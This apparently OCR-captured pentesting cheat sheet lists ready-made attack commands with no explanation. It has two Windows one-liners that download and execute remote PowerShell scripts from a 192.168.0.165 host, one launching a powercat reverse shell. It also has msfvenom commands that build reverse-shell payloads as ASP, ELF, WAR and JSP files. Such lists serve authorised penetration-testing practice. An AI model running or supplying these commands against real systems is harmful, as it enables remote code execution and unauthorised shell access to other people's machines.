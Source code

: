     C:\Windows\System32\cmd.exe /c "powershell -ExecutionPolicy Bypass -Command [scriptblock]::Create((Invoke-WebRequest "http://192.168.0.165/shell2.txt").Content).Invoke();"
    
    C:\Windows\System32\cmd.exe /c "powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.165/powercat.ps1');powercat -c 192.168.0.165 -p 8083 -e powershell"

# msfvenom

## Windows (web)
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp


## linux  
    msfvenom -p linux/x86/shell_reverse_tcp -f elf LHOST=192.168.119.181 LPORT=80 > rshell.elf


## java

WAR PAYLOAD

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.150 LPORT=80 -f war -o rshell.war

JSP PAYLOAD

    msfvenom -p java/jsp_shell_reverse_tcp -f raw LHOST=192.168.119.143 LPORT=5555 > shell.jsp